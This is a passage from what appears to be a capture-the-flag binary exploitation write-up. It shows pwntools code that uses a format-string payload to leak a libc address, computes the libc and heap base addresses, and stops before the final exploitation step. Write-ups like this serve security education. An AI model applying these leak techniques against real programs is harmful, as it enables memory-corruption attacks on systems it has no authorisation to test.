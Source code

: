 ![](images/libc-leak.png)

Now let's check the address in **gdb**.

![](images/xinfo-libc.png)

Yeap. It's a libc address with an offset of `0x21c87` from the base, so let's get the **libc base**.

*At the class prompt:*

```python
# Leak libc address
io.sendlineafter(">> ", "%13$p")
leak1 = int(io.recvuntil('class!').split()[4], 16) - 0x21c87
log.info(f"libc base: {hex(leak1)}")
```

Since we're here let's also grab the heap leak and calculate the base.

## Heap base

*At the menu prompt:*

```python
# Leak heap address
io.sendlineafter(">> ", "5")
io.sendlineafter(">> ", "3")
io.recvuntil("Class: ")
leak2 = unpack(io.recvline().strip().ljust(8, b"\x00")) - 0x12d0
log.info(f"heap base: {hex(leak2)}")
```

Aight. Let's get to the good part.
